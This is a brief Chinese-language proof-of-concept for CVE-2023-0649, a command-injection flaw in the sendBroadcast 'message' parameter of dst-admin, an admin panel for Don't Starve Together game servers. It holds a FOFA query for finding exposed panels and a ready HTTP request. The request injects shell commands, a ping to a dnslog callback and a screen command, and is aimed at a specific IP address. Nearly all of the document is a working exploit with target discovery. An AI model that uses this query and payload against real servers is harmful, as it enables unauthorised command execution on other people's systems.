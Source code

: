 # dst-admin 饥荒管理后台 sendBroadcast 文件 message 参数远程命令执行漏洞（CVE-2023-0649）

    ## fofa

```
title=="饥荒管理后台"
```

## poc

```
GET /home/sendBroadcast?message=%5C%22)%5Cn%22%26ping+dnslog%26screen%20-S%20%22DST_CAVES%22%20-p%200%20-X%20stuff%20%22TheNet%3AKick(%5C%22 HTTP/1.1
Host: 101.34.250.180:8888
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Cookie: JSESSIONID=5f9d64b1-ef44-40d1-8266-3ebea0d51e89;rememberMe=deleteMe;
Accept-Encoding: gzip


```
